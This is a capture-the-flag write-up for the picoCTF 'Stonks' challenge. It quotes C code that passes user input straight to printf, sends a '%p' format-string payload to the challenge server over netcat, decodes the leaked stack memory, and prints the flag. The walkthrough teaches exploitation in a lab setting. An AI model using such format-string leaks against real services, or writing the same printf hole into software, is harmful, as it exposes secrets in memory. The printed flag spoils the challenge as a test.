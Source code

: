 # Stonks

DISCLAIMER: I got big hints from a friend. There is no way I'd have been able to solve this 😅. I'm also not entirely sure how exactly this challenge worked... I'm not qualified to write a writeup for this challenge 😅.

## Overview:

Category: Binary Exploitation
Points: 20

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](./vuln.c) `nc mercury.picoctf.net 53437`

## Hints

1. Okay, maybe I'd believe you if you find my API key.

## Stuff I Was Told (Since Pico is Over)

* Print pointers
* 👀 carefully
* That block of code pasted below

## Approach

Connect to the shell with `nc mercury.picoctf.net 53437`

Take a look at 

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

and notice the `printf(user_buff);` (I was kinda directed to this so I'm not entirely sure why it's this specifically that's important).

```bash
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x8b953900x804b0000x80489c30xf7fa5d800xffffffff0x10x8b931600xf7fb31100xf7fa5dc7(nil)0x8b941800x20x8b953700x8b953900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffbd007d
Portfolio as of Thu Apr  8 01:52:11 UTC 2021


2 shares of H
5 shares of AF
34 shares of O
25 shares of SOF
229 shares of YQWO
Goodbye!
```

This part:

```text
0x8b953900x804b0000x80489c30xf7fa5d800xffffffff0x10x8b931600xf7fb31100xf7fa5dc7(nil)0x8b941800x20x8b953700x8b953900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffbd007d
```

looks like hex. I reformatted it in notepad (and also took out everything before `(nil)` while I guess was padding or something):

```text
8b9418028b953708b953906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3463646261653532ffbd007d
```

and jammed it into [HxD](https://mh-nexus.de/en/hxd/) which gives:

```text
‹”‹•7¹Socip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}
```

it looks like `ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}` is the flag except each 4 character block is reversed (little endian? also this is just a guess, I don't actually know)

I wrote a [script](./script.py) to output the proper flag.

this outputted `picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}�½ÿ`

## Flag

picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
